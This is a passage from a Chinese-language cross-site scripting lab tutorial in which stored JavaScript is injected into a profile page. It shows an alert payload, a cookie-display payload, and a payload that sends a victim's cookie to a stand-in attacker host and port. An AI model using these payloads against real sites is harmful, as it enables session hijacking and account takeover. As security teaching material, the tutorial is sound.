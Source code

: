 ```checker
    #!/bin/bash
    ps -ef |grep -v grep|grep apache2
  error: 没有启动apache2
```

##三、实验内容 #

### lab1 通过弹窗显示恶意信息 ##

实验类容：登入以上所给的一个用户，比如这里登录 body 这个账户，在个人资料页面编辑profile信息。写入恶意javascript代码。
    
step1:编辑自己的profile信息

![3.1-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792372410?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step2:随便填点信息后插入js弹窗代码，然后点击save按钮保存信息

![3.1-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792395908?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

代码如下

```
	<script>alert('This is xss');</script>
```

访问测试：

![3.1-3](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792423590?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

### lab2 显示Cookie ##

弹框仅仅是为了验证是否存在xss漏洞，并没有什么利用价值，而JavaScript中可以用函数来获取cookie，接下来就是使用JavaScript获取cookie来进一步利用。

还是刚刚那个页面，只不过我们的javascript代码变成了

```
    <script>document.write(document.cookie);</script>
```

![3.2-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792443019?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

访问测试：

![3.2-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792515562?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

红色圆圈内就是该用户的cookie。

### lab3 窃取受害者的Cookie ##

lab2的情况局限于获取自己的Cookie，当然我们不需要自己的Cookie，我们需要在不登陆的情况下，获取其他用户的Cookie，这样我们就可以使用cookie直接登录别人的账号。

要窃取别人的cookie，首先必须具备一个能接收cookie的环境，然后通过javascript代码把别人的cookie通过http请求发送到所搭的环境。

还是在profiles页面下编辑javascript代码

```
	<script>document.write('<img src=http://attacker_IP_address:5555?c=' +escape(document.cookie) + '> ');</script>
```
